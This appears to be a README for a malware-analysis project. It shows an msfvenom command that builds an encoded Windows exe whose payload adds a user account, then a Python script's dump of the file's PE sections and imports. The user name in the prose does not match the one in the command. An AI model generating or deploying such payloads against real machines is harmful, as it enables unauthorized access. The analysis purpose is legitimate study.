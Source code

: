 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe \
('.text\x00\x00\x00', '0x1000', '0xa966', 45056)\
('.rdata\x00\x00', '0xc000', '0xfe6', 4096)\
('.data\x00\x00\x00', '0xd000', '0x705c', 16384)\
('.rsrc\x00\x00\x00', '0x15000', '0x7c8', 4096) \

MSVCRT.dll
	_iob
	_except_handler3
	__set_app_type
	__p__fmode
	__p__commode
	_adjust_fdiv
	__setusermatherr
	_initterm
	__getmainargs
	__p___initenv
	_XcptFilter
	_exit
	_onexit
	__dllonexit
	strrchr
	wcsncmp
	_close
	wcslen
	wcscpy
	strerror
	modf
	strspn
	realloc
	__p__environ
	__p__wenviron
	_errno
	free
	strncmp
	strstr
	strncpy
	_ftol
	qsort
	fopen
	perror
	fclose
	fflush
	calloc
	malloc
	signal
	printf
	_isctype
	atoi
	exit
	__mb_cur_max
	_pctype
	strchr
	fprintf
	_controlfp
	_strdup
	_strnicmp
KERNEL32.dll
	PeekNamedPipe
	ReadFile
	WriteFile
	LoadLibraryA
	GetProcAddress
	GetVersionExA
	GetExitCodeProcess

